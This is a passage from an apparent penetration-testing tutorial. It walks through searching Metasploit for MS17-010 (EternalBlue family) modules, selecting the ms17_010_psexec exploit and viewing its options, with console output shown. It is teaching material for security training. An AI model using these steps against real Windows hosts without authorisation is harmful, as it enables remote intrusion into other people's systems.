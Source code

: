 We would boot up `msfconsole` and search for this exact exploit name.

#### MSF - Search for MS17_010

```shell-session
msf6 > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```

Next, we want to select the appropriate module for this scenario. From the `Nmap` scan, we have detected the SMB service running on version `Microsoft Windows 7 - 10`. With some additional OS scanning, we can guess that this is a Windows 7 running a vulnerable instance of SMB. We then proceed to select the module with the `index no. 2` to test if the target is vulnerable.

---

## Using Modules

Within the interactive modules, there are several options that we can specify. These are used to adapt the Metasploit module to the given environment. Because in most cases, we always need to scan or attack different IP addresses. Therefore, we require this kind of functionality to allow us to set our targets and fine-tune them. To check which options are needed to be set before the exploit can be sent to the target host, we can use the `show options` command. Everything required to be set before the exploitation can occur will have a `Yes` under the `Required` column.

#### MSF - Select Module

```shell-session

<SNIP>

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   
   
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec): 

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
```